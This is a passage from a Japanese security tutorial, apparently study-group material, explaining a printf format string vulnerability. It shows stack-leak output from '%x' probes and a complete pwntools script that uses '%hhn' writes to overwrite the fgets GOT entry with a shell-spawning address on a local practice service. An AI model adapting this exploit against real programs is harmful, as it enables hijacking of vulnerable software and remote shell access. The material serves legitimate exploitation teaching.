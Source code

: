 ```
a%x %x %x %x %x %x
a64 f77b7c20 0 ffc823a4 61c82318 25207825
```
すると、25207825(%:0x25, x:0x78, スペース:0x20なので）とちゃんとアラインされたのが分かる。

先ほども書いたが、%nというのは今までに何文字出力したのか？を特定の引数の示す先に書き込む。基本的に書き込み先の値はある程度大きいので、大きい文字列を送ると溢れてしまう。この場合printf関数の文字幅指定によって、任意の長さの文字を表示させることが可能である。

以上を加味すると以下のようなスクリプトで攻撃コードを出力可能である。詳しく文字列で書くのは割とめんどくさいのでこの部分はホワイトボードか何かで解説する。

```
# coding:utf-8
from __future__ import division
from pwn import remote

def p32(addr):
    ret = ""
    for i in range(4):
        x = addr % 256
        addr = addr // 256
        ret += chr(x)
    return ret

host = "127.0.0.1"
port = 3000
r = remote(host, port)

binsh_addr = 0x080484fd
fgets_got = 0x804a014

pos = 6

buf = "a"

for i in range(4):
    addr = fgets_got + i
    buf += p32(addr)

cnt = len(buf)
for i in range(4):
    x = binsh_addr % 256
    binsh_addr = binsh_addr // 256
    offset = (x - cnt) % 256
    buf += "%{0}c%{1}$hhn".format(offset, pos + i)
    cnt += offset
#print(buf)
r.sendline(buf)
r.interactive()
```



## リンク(TSGer)

* [去年の分科会のRev/Pwnの資料@cookies146](http://qiita.com/cookies/private/be4c39c623b5e0617740)
* [satosさんのブログ](http://satos.hatenablog.jp/entry/2016/12/02/192417)

